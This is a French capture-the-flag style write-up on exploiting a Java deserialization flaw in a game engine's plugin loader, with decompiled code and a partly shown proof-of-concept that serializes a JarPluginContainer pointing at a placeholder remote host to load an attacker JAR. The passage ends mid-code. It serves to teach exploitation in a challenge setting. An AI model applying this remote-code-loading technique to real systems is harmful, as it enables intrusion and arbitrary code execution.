 Voici quelques ressources sur les vulnérabilités en question:
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228
* https://www.slideshare.net/codewhitesec/exploiting-deserialization-vulnerabilities-in-java-54707478
* https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf

Les versions récentes de Java ne permettent pas forcément de télécharger
*trivialement* une classe Java depuis un serveur externe, mais une
désérialisation arbitraire permet "souvent" de déclencher du chargement
de code distant.

Examinons le code du moteur de jeu avec jadx:
```java
public class JarPluginContainer extends PluginContainer {
    private final URL url;
    private boolean loaded;

    ...
    public void load(Game game) throws CorruptedPluginException, PluginLoadingException {
        URLClassLoader loader = new URLClassLoader(new URL[]{this.url}, getClass().getClassLoader());
        load(game, loader);
        this.loaded = true;
    }
    ...
    private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {
        in.defaultReadObject();
        if (this.loaded && this.plugin == null) {
            try {
                PluginLoader.LOGGER.warn("Deserializing a plugin that does not support serialization, loading it manually!");
                PluginLoader.LOGGER.warn("Offender: " + this.metadata);
                PluginLoader.LOGGER.warn("Please implement serialization in your plugins if you wish to use plugin dumps.");
                load(RecrutementGameLauncher.getGame());
            } catch (PluginLoadingException e) {
                throw new IllegalStateException("Failed to re-load a plugin after deserialization!", e);
            }
        }
    }
    ...
}
```

On voit qu'en désérialisant un JarPluginContainer avec loaded=true, on
peut déclencher le chargement d'un JAR distant.

On prépare l'objet sérialisé:
```java
$ cat poc.java
import java.net.URL;
import java.io.ObjectOutputStream;

import org.hallebarde.recrutement.plugins.JarPluginContainer;
import org.hallebarde.recrutement.api.PluginMetadata;

public class Main {
    public static void main(String[] args) throws Exception {
        Object o = new JarPluginContainer(
                new PluginMetadata("example", "com.example.plugin.ExamplePlugin", "1.0.0"),
                new URL("http://ww.xx.yy.zz:3880/example-plugin.jar"),
                true);
        ObjectOutputStream oo = new ObjectOutputStream(System.err);
        oo.writeObject(o);
```